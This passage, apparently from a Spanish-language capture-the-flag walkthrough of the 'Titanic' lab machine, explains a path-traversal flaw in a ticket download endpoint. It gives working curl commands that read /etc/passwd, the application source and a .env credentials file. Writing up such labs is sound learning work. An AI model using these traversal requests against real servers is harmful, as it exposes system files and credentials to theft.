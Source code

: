 ***

### **¿Cómo se puede explotar?**

#### **Ejemplo 1: Obtener el archivo `/etc/passwd` en Linux**

Si el servidor está en Linux, un atacante puede usar `curl` para intentar descargar el archivo de contraseñas del sistema:

```shell
curl "http://titanic.htb/download?ticket=../../../../etc/passwd" -o passwd.txt
```

🔍 **Explicación:**

* `../../../../etc/passwd` hace que la ruta se convierta en:

```
tickets/../../../../etc/passwd  →  /etc/passwd
```

* Si el servidor tiene permisos para leer `/etc/passwd`, **devolverá el archivo con los nombres de usuario del sistema.**

#### **Ejemplo 2: Descargar archivos del código fuente del servidor**

Si el servidor está almacenando sus propios archivos en `/var/www/app/`, un atacante podría intentar descargar el código fuente con:

```shell
curl "http://titanic.htb/download?ticket=../../app.py" -o app.py
```

Si tiene éxito, **el atacante obtiene el código completo de la aplicación**, lo que le permite buscar más vulnerabilidades.

#### **Ejemplo 3: Leer archivos de configuración sensibles**

Si hay un archivo `.env` con credenciales en el servidor, el atacante podría intentar obtenerlo:

```shell
curl "http://titanic.htb/download?ticket=../../.env" -o env.txt
```

Este archivo suele contener **contraseñas de bases de datos y claves API**.

***

Por lo que vamos a realizar lo siguiente para ver que contiene el `passwd` y comprobar que funciona:

```shell
curl "http://titanic.htb/download?ticket=../../../../etc/passwd"
```

Info:
